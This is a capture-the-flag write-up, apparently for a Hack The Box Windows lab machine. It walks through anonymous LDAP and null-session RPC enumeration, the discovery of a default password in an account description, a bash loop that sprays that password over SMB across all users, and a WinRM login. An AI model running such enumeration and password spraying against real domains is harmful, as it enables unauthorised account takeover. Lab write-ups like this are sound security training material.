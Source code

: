 ![](./logo.png)

The initial enumeration of the box provides us with a huge number of ports open.

Our first enumeration point should be `ldap`:

We can check for an anon bind with the command below:
```
nmap -p 389 --script ldap-search 10.10.10.169
```

We can see a huge dump of `ldap` records. This will be much easier with a GUI. We are going to use `jxplorer`

Below is a screen grab of an important user.

![](./_images/jx_explorer.png)

We can see in the description the string:

```
Account created. Password set to Welcome123!
```

The password does not work with this specific user. However, as this is the default it may work with a less vigilant user.

We therefore, need to enumerate some more users. We can use `rpcclient` for this:

```
rpcclient -U "" -N 10.10.10.169
```

```
rpcclient $> enumdomusers

    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[ryan] rid:[0x451]
    user:[marko] rid:[0x457]
    user:[sunita] rid:[0x19c9]
    user:[abigail] rid:[0x19ca]
    user:[marcus] rid:[0x19cb]
    user:[sally] rid:[0x19cc]
    user:[fred] rid:[0x19cd]
    user:[angela] rid:[0x19ce]
    user:[felicia] rid:[0x19cf]
    user:[gustavo] rid:[0x19d0]
    user:[ulf] rid:[0x19d1]
    user:[stevie] rid:[0x19d2]
    user:[claire] rid:[0x19d3]
    user:[paulo] rid:[0x19d4]
    user:[steve] rid:[0x19d5]
    user:[annette] rid:[0x19d6]
    user:[annika] rid:[0x19d7]
    user:[per] rid:[0x19d8]
    user:[claude] rid:[0x19d9]
    user:[melanie] rid:[0x2775]
    user:[zach] rid:[0x2776]
    user:[simon] rid:[0x2777]
    user:[naoki] rid:[0x2778]
```

And we can get more information on a user like so:
```
rpcclient $> queryuser ryan
	User Name   :	ryan
	Full Name   :	Ryan Bertrand
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 BST
	Logoff Time              :	Thu, 01 Jan 1970 01:00:00 BST
	Kickoff Time             :	Thu, 01 Jan 1970 01:00:00 BST
	Password last set Time   :	Wed, 11 Dec 2019 09:38:03 GMT
	Password can change Time :	Thu, 12 Dec 2019 09:38:03 GMT
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 GMT
	unknown_2[0..31]...
	user_rid :	0x451
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000002
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

Using the script below we can brute force the users and password combo:

```bash
USERS="krbtgt ryan marko sunita abigail marcus sally fred angela felicia gustavo ulf stevie claire paulo steve annette annika per claude melanie zach simon naoki"

for u in ${USERS[@]}; do
	echo $u
	python3 ~/GitHub/Pentesting_Tools/Enumeration/Impacket/smbclient.py $u:Welcome123\!@10.10.10.169
	echo ""
done; 
```

Default password works with the user `melanie`:

```
melanie:Welcome123!
```

We can then use this username and password with our best friend `evil-wimrm.rb` 

To log on and grab the `user.txt`!